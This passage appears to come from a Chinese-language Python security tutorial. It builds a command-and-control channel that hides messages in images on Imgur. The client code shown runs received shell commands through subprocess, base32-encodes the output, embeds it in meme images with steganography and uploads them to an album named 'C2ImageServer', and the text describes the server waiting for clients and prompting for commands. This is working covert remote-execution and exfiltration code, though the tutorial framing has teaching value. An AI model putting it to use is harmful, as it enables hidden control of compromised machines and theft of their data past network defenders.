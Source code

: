 ```
            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}", "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

## 它是如何工作的…

首先，我们创建一个`imgur`客户端对象；authenticate 函数处理使用我们的帐户和应用程序对`imgur`客户端进行身份验证。当您运行脚本时，它将输出一个要访问的 URL，以获取要输入的 pin 码。然后它会为我们的 imgur 用户名获取一个相册列表。如果您尚未创建相册，脚本将失败，请确保您已准备好相册。我们将获取列表中的第一张相册，并获得该相册中包含的所有图像的进一步列表。

图像列表通过将最早上传的图像放在第一位来排序；为了让脚本正常工作，我们需要知道最新上传图像的时间戳，因此我们使用`[-1]`索引获取它并将其存储在变量中。完成此操作后，服务器将等待客户端连接：

```
client = authenticate()
a = client.get_account_albums("<YOUR IMGUR ACCOUNT NAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."
```

一旦服务器等待客户端连接，我们就可以运行客户端脚本。客户端脚本的初始启动创建一个`imgur`客户端对象，就像服务器一样，而不是等待；但是，它会生成一条消息并将其隐藏在随机图像中。此消息包含客户端正在运行的`os`类型（这将使服务器用户更容易知道要运行的命令）、`ready`状态，以及客户端的标识符（如果您希望在脚本上展开以允许多个客户端连接到服务器）。

上传图像后，`last_message_datetime`功能设置为新的时间戳：

```
client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']
```

服务器将等待，直到它看到消息；它通过使用`while`循环来实现这一点，并检查图像日期时间是否晚于我们启动它时保存的日期时间。一旦它看到有一个新的图像，它将下载它并提取信息。然后检查消息，看它是否是客户机就绪消息；如果是，则显示`uuid`客户端和`os`类型，并提示用户输入：
